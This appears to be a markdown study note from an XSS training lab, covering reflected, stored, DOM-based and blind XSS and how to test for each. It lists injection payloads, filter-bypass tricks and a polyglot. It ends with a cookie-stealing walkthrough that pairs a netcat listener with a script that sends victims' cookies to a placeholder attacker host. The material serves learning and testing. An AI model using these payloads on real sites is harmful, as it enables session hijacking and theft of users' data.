 # Types of XSS

## Reflected XSS
Reflected XSS occurs when user-supplied data in an HTTP request is included in the webpage source without proper validation or sanitization.

### Example
Consider a website that includes error messages based on URL parameters. If the error message is sourced directly from the **error** parameter, it may reflect arbitrary input into the page source:

![image](https://github.com/user-attachments/assets/c51cd7dd-d3af-49f0-bb47-b3a01c1b988a)
![image](https://github.com/user-attachments/assets/912978bd-c4a6-4510-9dfb-4bd58c7aabac)

### Potential Impact
An attacker could craft malicious URLs with JavaScript payloads, tricking users into executing the code. This can lead to session hijacking or unauthorized access to sensitive data.

### How to Test for Reflected XSS
Check all user-controllable inputs:
- URL Query Parameters
- URL Path
- HTTP Headers (less commonly exploitable)

Once reflected data is identified, test JavaScript payloads tailored to the context of injection.

## Stored XSS
Stored XSS (also known as persistent XSS) involves injecting malicious scripts that are stored on the server, typically in a database, and then displayed to users.

### Example
On a blog platform where users can comment, malicious JavaScript can be injected through comments:

![image](https://github.com/user-attachments/assets/baebddbb-a5ce-4ed0-95e3-11d3616203b7)

### How to Test for Stored XSS
Test user input points that get stored and displayed to others:
- Blog comments
- Profile fields
- Listings

Sometimes inputs are only validated client-side. Manually modifying requests can allow unexpected values like JavaScript code.

## DOM-Based XSS
DOM-Based XSS occurs when the client-side JavaScript modifies the page content based on user input without proper validation.

### What is the DOM?
The **Document Object Model** (DOM) is an interface that represents HTML documents as a tree structure, allowing programs to manipulate page content dynamically.
![image](https://github.com/user-attachments/assets/30fa52e0-ae8c-47ca-ae1c-297ffd1603c8)

### Exploiting the DOM
Occurs when JavaScript accesses user input (like `window.location.hash`) and injects it directly into the DOM:

- Example: If the content of `window.location.hash` is written to the page without sanitization.

### How to Test
Analyze client-side JavaScript for unsafe handling of variables like:
- `window.location.*`
- `document.referrer`
- `document.URL`

Identify if these values are written to the DOM or passed into functions like `eval()`.

## Blind XSS
Blind XSS occurs when the injected script executes in a context the attacker does not control or see, such as an admin panel.

### Example
Injecting JavaScript into a contact form that generates internal tickets, which are then viewed by administrators.

### How to Test
Use callbacks in your payload to detect execution. Example tools:
- [XSS Hunter Express](https://github.com/mandatoryprogrammer/xsshunter-express)

This tool can collect cookies, URLs, and DOM content when the payload is executed.

# Common XSS Scenarios

### Basic Reflection
Input echoed on the page:
![image](https://github.com/user-attachments/assets/3b2840ce-fd49-4837-af3f-832cc6d123f3)
```html
<script>alert('THM');</script>
```

### Input Tag Injection
If the input is reflected in an attribute:
![image](https://github.com/user-attachments/assets/6aef0778-57f2-442c-a4a3-429f29df0178)
```html
"><script>alert('THM');</script>
```

### Textarea Tag Injection
Reflected inside `<textarea>`:
![image](https://github.com/user-attachments/assets/359bda10-6f26-4630-bb5d-f6a7bd2b3657)
```html
</textarea><script>alert('THM');</script>
```

### JavaScript Context Injection
Reflected inside JS code:
![image](https://github.com/user-attachments/assets/e27c0e22-9123-4f2f-8833-a94d271223bd)
```javascript
';alert('THM');//
```

### Filtered Keywords
When keywords like `script` are filtered:
![image](https://github.com/user-attachments/assets/fad47989-8c7a-49a0-9872-5acefaff54b7)
```html
<sscriptcript>alert('THM');</sscriptcript>
```
This is interpreted by the browser as:
```html
<script>alert('THM');</script>
```

### Bypassing IMG Tag Filters
When `<` and `>` are filtered:
![image](https://github.com/user-attachments/assets/fd86a7ab-9121-4874-b726-fd6c53dc1275)
```html
/images/cat.jpg" onload="alert('THM');
```
Using the `onload` event to execute JavaScript.

### XSS Polyglots
A polyglot is a universal payload that attempts to bypass multiple filters:
```javascript
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/ -!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```
Useful for broad testing but not a substitute for context-specific payloads.

# Cookie Stealing Example
To exfiltrate cookies from another user:

### 1. Setup a listening server:
```bash
nc -lnvp PORT
```

### 2. Payload:
```html
</textarea><script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie));</script>
```
- Closes the textarea
- Creates a fetch request to your server
- Base64-encodes the user's cookies using `btoa()`
- Sends cookies via query string

### 3. Monitor the connection
Wait for the victim to trigger the payload and monitor incoming connections.

